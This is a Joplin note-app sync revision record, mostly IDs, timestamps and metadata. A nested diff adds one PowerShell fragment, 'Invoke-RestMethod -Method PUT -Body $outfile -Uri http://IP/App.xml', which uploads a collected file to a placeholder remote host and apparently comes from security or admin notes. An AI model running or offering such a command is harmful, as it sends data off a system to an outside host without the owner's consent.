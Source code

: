 id: 8ea453f2a7bd40e48372ead96b55bbaa
parent_id: 
item_type: 1
item_id: 0d3d294df938416199ec91df53e85f0c
item_updated_time: 1646016692643
title_diff: "[{\"diffs\":[[1,\"1019559aee85425eb79e843ec01bb8ef\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":32}]"
body_diff: "[{\"diffs\":[[1,\"id: 1019559aee85425eb79e843ec01bb8ef\\\r\\\nparent_id: 6544a8184cd24a39989734969b279c0d\\\r\\\nitem_type: 1\\\r\\\nitem_id: f21c6f5f2f59420ca228482d82081874\\\r\\\nitem_updated_time: 1642578895816\\\r\\\ntitle_diff: \\\"[]\\\"\\\r\\\nbody_diff: \\\"[{\\\\\\\"diffs\\\\\\\":[[0,\\\\\\\"file\\\\\\\"],[-1,\\\\\\\" \\\\\\\"],[0,\\\\\\\"\\\\\\\\\\\\\n\\\\\\\\\\\\\n![\\\\\\\"]],\\\\\\\"start1\\\\\\\":4270,\\\\\\\"start2\\\\\\\":4270,\\\\\\\"length1\\\\\\\":9,\\\\\\\"length2\\\\\\\":8},{\\\\\\\"diffs\\\\\\\":[[0,\\\\\\\"ive -xml\\\\\\\"],[1,\\\\\\\"; Invoke-RestMethod -Method PUT -Body $outfile -Uri http://IP/App.xml\\\\\\\"]],\\\\\\\"start1\\\\\\\":4441,\\\\\\\"start2\\\\\\\":4441,\\\\\\\"length1\\\\\\\":8,\\\\\\\"length2\\\\\\\":77}]\\\"\\\r\\\nmetadata_diff: {\\\"new\\\":{},\\\"deleted\\\":[]}\\\r\\\nencryption_cipher_text: \\\r\\\nencryption_applied: 0\\\r\\\nupdated_time: 2022-01-19T07:55:39.382Z\\\r\\\ncreated_time: 2022-01-19T07:55:39.382Z\\\r\\\ntype_: 13\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":673}]"
metadata_diff: {"new":{"id":"0d3d294df938416199ec91df53e85f0c","parent_id":"fb73d1d872ce4ee6ab184091f1e4c67b","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1646016692633,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:54:21.625Z
created_time: 2022-02-28T02:54:21.625Z
type_: 13